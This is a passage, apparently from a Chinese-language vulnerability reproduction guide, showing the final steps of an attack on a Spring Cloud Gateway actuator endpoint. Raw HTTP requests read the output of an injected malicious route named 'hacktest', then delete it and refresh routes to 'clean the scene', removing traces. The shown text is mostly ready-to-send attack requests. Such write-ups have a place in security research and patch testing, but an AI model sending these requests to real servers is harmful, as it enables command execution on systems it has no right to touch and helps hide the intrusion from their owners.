 \3. 访问添加的恶意路由，发送如下数据包即可查看执行结果：  

```java
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: 192.168.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

    
```

![img](assets/3.png)4. 最后，发送如下数据包清理现场，删除所添加的路由：  

```java
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

\5. 再刷新下路由：  

```java
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
